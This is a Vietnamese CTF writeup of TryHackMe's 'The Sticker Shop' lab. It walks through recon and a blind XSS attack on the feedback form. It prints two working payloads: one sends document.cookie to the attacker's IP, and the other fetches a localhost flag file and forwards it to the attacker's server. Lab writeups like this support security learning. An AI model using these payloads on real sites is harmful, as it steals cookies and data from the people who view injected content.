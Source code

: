 <div align="center">
    <h1>☁️ TryHackMe The Sticker Shop Writeup 🛹
</h1>
</div>

## 🚀 1. Khởi động taget

![Start taget](Images/0.start_taget.png)

## 🔍 2. Recon

- Sử dụng `nmap` quét mục tiêu

![Recon nmap](Images/1.nmap.png)

- Phát hiện 2 cổng mở
    - Cổng`22` cho dịch vụ ssh.

    - Cổng `8080` mở chạy dịch vụ `http` cho một ứng dụng web sử dụng `Werkzeug httpd 3.0.1` gì đó chạy trên `Python 3.8.10` với tiêu đề là `Cat Sticker Shop`.

- Tiếp tục quét thêm thư mục bằng `gobuster`

![Recon gobuster](Images/1.5.gobuster.png)

- Tuy nhiên cũng không tìm được kết quả nào đặc biệt (đã quét một lúc lâu trước đó, đoạn này chỉ chạy lại để chụp ảnh minh họa :)))

- Truy cập địa chỉ taget với port `8080` trước đó.

![Cat](Images/2.5.CatSticker.png)

- Mục tiêu là một trang Cat Sticker Shop khá đơn giản

- `Home` là một trang web tĩnh, ngó qua source code có vẻ cũng không có thứ gì đáng để tâm (ngoại trừ 2 còn mèo 🐱🐱)

- Trang `Feedback` cho phép để lại phản hồi của khách hàng -> có thể là mục tiêu để khai thác.

![Feedback](Images/2.8.feedback.png)

## 3. Tìm flag
- Thử tải flag bằng `curl` xem có được không.
```
 curl http://10.10.133.147:8080/flag.txt
```

![curl](Images/0.5.Curl.png)

- Kết quả là không được (tất nhiên rồi :)) ) 
- Dựa vào một số gợi ý trong phần mô tả của bài lab, có vẻ trang web này dính `XSS`

- Tuy nhiên khi nhập bất kì feedback nào, kể cả payload `XSS` thì chỉ nhận được thông báo `Thanks for your feedback! It will be evaluated shortly by our staff`

![Feedback](Images/2.9.bllind.png)

- => Có thể là `Blind XSS`.
- Để kiểm tra, nhập thử một payload có call back tới server của người tấn công

- Chuẩn bị server bằng lệnh `python3 -m http.server 4231`
- Nhập payload sau vào feedback (với `10.21.175.20` là ip của máy người tấn công)
```
<script>new Image().src="http://10.21.175.20:4321/?c="+document.cookie;</script>
```

![hoangdeptrai](Images/3.enter_payload.png)

- Kiểm tra server

![hoangdeptrai](Images/2.python_server.png)

- Có vẻ payload chạy thành công => có thể khai thác được `Blind XSS`.

- Tuy nhiên đoạn này mất thời gian vì khá khó để tìm payload phù hợp cho việc extract flag.

- Sau khi mò mẫm mẫu payload trên một số trang như [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings), PortSwigger,... và sử dụng kĩ năng hỏi đáp (với ChatGPT :) ), tạo được payload như sau:

```
'"><script>
fetch("http://127.0.0.1:8080/flag.txt")
  .then(r => r.text())
  .then(flag => fetch("http://10.21.175.20:2222/?flag=" + encodeURIComponent(flag)))
</script>
```
- `fetch("http://127.0.0.1:8080/flag.txt")` - Gửi `HTTP GET request` từ trình duyệt đến máy `localhost` của mục tiêu, ở đây có thể là nhân viên shop.
    - Lúc đầu, tôi sử dụng địa chỉ của taget, tuy nhiên không thành công, sau đó khi đọc được gợi ý `so they decided to develop and host everything on the same computer that they use for browsing the internet and looking at customer feedback` từ mô tả cả bài lab => chuyển sang localhost và thành công
- `.then(r => r.text())` - Khi `fetch()` thành công, nó trả về một `Response object`, đoạn này giúp chuyển response thành chuỗi text để xử lý tiếp.

- `.then(flag => fetch("http://10.21.175.20:2222/?flag=" + encodeURIComponent(flag)))` - Gửi flag vừa lấy được về máy chủ của attacker. `encodeURIComponent()` để đảm bảo flag không bị lỗi URL khi chứa ký tự đặc biệt.

- Kiểm tra server, thành công extract được flag.

![hoangdeptrai](Images/5.result.png)


- Submit thành công 🎉

![hoangdeptrai](Images/6.flag.png)

- Hoàn thành bài lab 🔥🔥🔥

<div align="right">
    <em>📌 By: Hoàng Vũ :).</em>
</div>